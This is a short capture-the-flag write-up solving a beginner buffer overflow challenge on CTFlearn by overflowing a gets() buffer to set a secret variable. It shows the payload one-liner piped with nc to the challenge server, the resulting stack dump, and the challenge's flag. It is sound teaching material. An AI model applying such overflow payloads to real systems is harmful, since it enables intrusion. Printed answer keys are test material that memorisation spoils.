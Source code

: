 # Simple bof
[Link to the challenge](https://ctflearn.com/challenge/1010)

My first ever buffer overflow!

## Step 1
We are given a C file which is the "original" code, just to get an idea of how the server is running.

Looking at the file I saw 2 interesting lines:
- `gets(buff); // This is a vulnerable call!`
- `if (secret == 0x67616c66) {`.

Apparently, `gets` is a vulnerable call.
After reading a little bit on it, I learned that `gets` will store, whatever is in the input, on the stack, which allows a BFO attack.

`secret` is the string I needed to attack to change it into `0x67616c66` (which equals to `galf`).

The stack is stored "backward", so I needed to input `flag` and not `galf`.

## Step 2
Connecting to the server using `netcat`, I got a nice visualization that helped me a lot to understand how `gets` really works.

After inputting `A` only the first byte where changed (to `41` because `A` equals `41`).

I saw there was:
- 4 lines of buffer
- 2 lines of padding
until I get to the secret.

So I needed (4+2)*8 A's + the `flag` string to do the BOF.

I could do it by hand but I imagined it was not 48 A's but like 2000 A's so I had to find a way to do it automatically or almost.

## Step 3
Python is a great tool for this kind of stuff.

I used `
```bash
$ python -c "print('A'*48+'flag')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag
```

I just needed to pipe this output to the server (using `nc`) and I'd do the BOF attack.

```bash
$ python -c "print('A'*48+'flag')" | nc thekidofarcrania.com 35235

...

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xffc7c088 | 41 41 41 41 41 41 41 41 |
0xffc7c090 | 41 41 41 41 41 41 41 41 |
0xffc7c098 | 41 41 41 41 41 41 41 41 |
0xffc7c0a0 | 41 41 41 41 41 41 41 41 |
0xffc7c0a8 | 41 41 41 41 41 41 41 41 |
0xffc7c0b0 | 41 41 41 41 41 41 41 41 |
0xffc7c0b8 | 66 6c 61 67 00 ff ff ff |
0xffc7c0c0 | c0 65 fc f7 84 ef 5d 56 |
0xffc7c0c8 | d8 c0 c7 ff 11 cb 5d 56 |
0xffc7c0d0 | f0 c0 c7 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```
You can see all the 41s (which are the `A`) and the `66 6c 61 67` which is the data I needed to inject. 

I had the flag!

## Solution
The flag is `CTFlearn{buffer_0verflows_4re_c00l!}`
